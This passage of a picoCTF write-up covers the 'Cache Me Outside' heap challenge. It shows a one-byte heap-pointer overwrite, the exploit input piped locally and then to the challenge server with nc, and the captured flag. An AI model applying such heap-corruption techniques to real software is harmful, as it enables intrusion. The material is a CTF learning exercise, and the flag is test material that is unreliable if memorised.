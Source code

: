 
The value to be changed to is `0x603800`. We can only change one byte, but remember we're running on little-endian, `0x90` is what will be changed. The "Value:" part should be `0x00`

Finally let's try the exploit.
```
❯ { echo "-5144"; printf "\x00";} | LD_PRELOAD=./libc.so.6 ./ld-2.27.so ./heapedit
You may edit one byte in the program.
Address: Value: lag is: picoCTF{test_flag}
```
It works! How about remote?
```
❯ { echo "-5144"; printf "\x00";} | nc mercury.picoctf.net 36605
You may edit one byte in the program.
Address: Value: lag is: picoCTF{702d6d8ea75c4c92fe509690a593fee2}
```

## Reference
- [CTFs/Cache_Me_Outside.md at master · Dvd848/CTFs](https://github.com/Dvd848/CTFs/blob/master/2021_picoCTF/Cache_Me_Outside.md)
- [Heap Exploitation Part 2: Understanding the Glibc Heap Implementation \| Azeria Labs](https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/)
